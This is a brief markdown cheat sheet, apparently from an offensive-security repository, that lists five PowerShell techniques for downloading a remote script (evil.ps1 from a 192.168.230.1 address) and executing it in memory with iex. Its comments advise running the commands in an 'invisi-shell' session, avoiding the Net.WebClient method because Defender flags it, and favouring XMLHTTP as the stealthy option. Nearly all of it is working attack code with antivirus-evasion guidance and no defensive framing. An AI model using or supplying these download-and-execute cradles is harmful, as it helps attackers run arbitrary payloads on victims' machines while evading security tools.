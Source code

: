 # PowerShell Script Execution

import script from other source then execute it in memory — all this command u should run it in `invisi-shell` session

**Net.WebClient**

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.230.1/evil.ps1')
# try un use it - because it flag in defender
```

**Internet Explorer COM object**

```powershell
$ie = New-Object -ComObject InternetExplorer.Application
$ie.visible=$False
$ie.navigate('http://192.168.230.1/evil.ps1')
sleep 5
$response=$ie.Document.body.innerHTML
$ie.quit()
iex $response

############### may good
```

**Invoke-WebRequest (PS v3+)**

```powershell
iex (iwr 'http://192.168.230.1/evil.ps1')
# don't use it
```

**XMLHTTP COM object**

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','http://192.168.230.1/evil.ps1',$false)
$h.send()
iex $h.responseText

#####3 stealthy way
```

**NET WebRequest**

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()

######### it's more Advanced 
```
